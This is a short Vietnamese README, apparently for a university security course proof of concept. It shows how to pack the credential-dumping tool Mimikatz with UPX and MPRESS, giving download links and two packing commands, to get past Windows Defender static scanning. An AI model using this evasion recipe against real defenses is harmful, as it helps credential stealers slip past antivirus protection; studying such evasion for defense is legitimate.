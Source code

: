 # NT230_G19_S08_Binary-Packing_POC
Sử dụng công cụ UPX và MPRESS để nén file thực thi mimikatz.exe vượt qua quét tĩnh của Windows Defender

# Tải về các công cụ: 
1. UPX (phiên bản v5.0.1): https://github.com/upx/upx/releases/tag/v5.0.1
2. MPRESS: https://www.autohotkey.com/mpress/mpress_web.htm
3. Mimikatz (phiên bản gốc): https://github.com/ParrotSec/mimikatz

# Thực hiện packing Mimikatz.exe:
1. mpress -s -b mimikatz.exe: Lệnh này dùng MPRESS để nén tối đa file mimikatz.exe và tạo thêm bản backup gốc.
2. upx -9 --ultra-brute --compress-icons=0 mimikatz.exe -o MMK_upx.exe: Lệnh này dùng UPX ở mức nén cao nhất (–ultra-brute), không nén icon (giữ nguyên biểu tượng), và xuất ra file MMK_upx.ex

![image](https://github.com/user-attachments/assets/44faa6ee-281c-4fab-bf1d-398ffdb09b5b)

